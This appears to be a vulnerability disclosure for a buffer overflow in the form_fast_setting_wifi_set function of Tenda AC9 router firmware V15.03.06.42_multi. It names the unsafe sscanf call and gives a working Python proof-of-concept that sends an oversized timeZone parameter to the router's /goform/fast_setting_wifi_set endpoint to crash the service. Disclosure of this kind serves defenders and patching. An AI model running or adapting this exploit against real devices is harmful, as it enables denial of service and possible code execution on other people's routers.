


## Tenda AC9 V15.03.06.42_multi firmware has a buffer overflow vulnerability in the form_fast_setting_wifi_set

There is a serious buffer overflow vulnerability in the `form_fast_setting_wifi_set` function of Tenda router AC9 V15.03.06.42_multi firmware. Attackers can use `sscanf(timestr + 1, "%[^:]:%s", timespand, timespand[1], 0, 0)` to cause a denial of service attack, or even cause the service to crash and execute malicious code.



### POC

```py
import requests

def generate_overflow_data():
    # Target buffer size is 0x400 bytes
    padding = b"X" * 0x400
    
    exploit_data = padding 
    
    return exploit_data

def execute_overflow(url, data):
    # Prepare malicious request parameters
    attack_params = {'timeZone':data,"ssid":123}
   

    
    # Send the malicious request twice (as in original)
    server_response = requests.get(url, params=attack_params)
    server_response = requests.get(url, params=attack_params)
    
    # Display server response
    print("HTTP Status:", server_response.status_code)
    print("Response Content:", server_response.text)

if __name__ == "__main__":
    # Target endpoint
    target_url = "http://192.168.102.145/goform/fast_setting_wifi_set"
    
    # Generate overflow payload
    malicious_payload = generate_overflow_data()
    
    # Execute the attack
    execute_overflow(target_url, malicious_payload)
```

